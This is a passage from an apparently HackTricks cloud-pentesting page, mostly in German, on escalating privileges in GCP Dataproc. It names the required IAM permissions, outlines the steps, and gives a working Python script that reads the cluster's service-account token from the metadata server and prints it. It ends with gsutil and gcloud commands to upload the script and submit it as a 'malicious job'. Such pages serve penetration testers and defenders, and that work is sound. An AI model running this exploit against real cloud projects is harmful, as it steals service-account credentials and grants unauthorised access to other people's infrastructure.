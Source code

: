 # GCP Dataproc Privilege Escalation

{{#include ../../../banners/hacktricks-training.md}}

## Dataproc

{{#ref}}
../gcp-services/gcp-dataproc-enum.md
{{#endref}}

### `dataproc.clusters.get`, `dataproc.clusters.use`, `dataproc.jobs.create`, `dataproc.jobs.get`, `dataproc.jobs.list`, `storage.objects.create`, `storage.objects.get`

Ich konnte mit dieser Methode keine Reverse-Shell erhalten, jedoch ist es möglich, das SA-Token vom Metadaten-Endpunkt mit der unten beschriebenen Methode zu leaken.

#### Schritte zur Ausnutzung

- Platzieren Sie das Job-Skript im GCP-Bucket.

- Reichen Sie einen Job bei einem Dataproc-Cluster ein.

- Verwenden Sie den Job, um auf den Metadaten-Server zuzugreifen.

- Leaken Sie das Dienstkonto-Token, das vom Cluster verwendet wird.
```python
import requests

metadata_url = "http://metadata/computeMetadata/v1/instance/service-accounts/default/token"
headers = {"Metadata-Flavor": "Google"}

def fetch_metadata_token():
try:
response = requests.get(metadata_url, headers=headers, timeout=5)
response.raise_for_status()
token = response.json().get("access_token", "")
print(f"Leaked Token: {token}")
return token
except Exception as e:
print(f"Error fetching metadata token: {e}")
return None

if __name__ == "__main__":
fetch_metadata_token()
```

```bash
# Copy the script to the storage bucket
gsutil cp <python-script> gs://<bucket-name>/<python-script>

# Submit the malicious job
gcloud dataproc jobs submit pyspark gs://<bucket-name>/<python-script> \
--cluster=<cluster-name> \
--region=<region>
```
{{#include ../../../banners/hacktricks-training.md}}
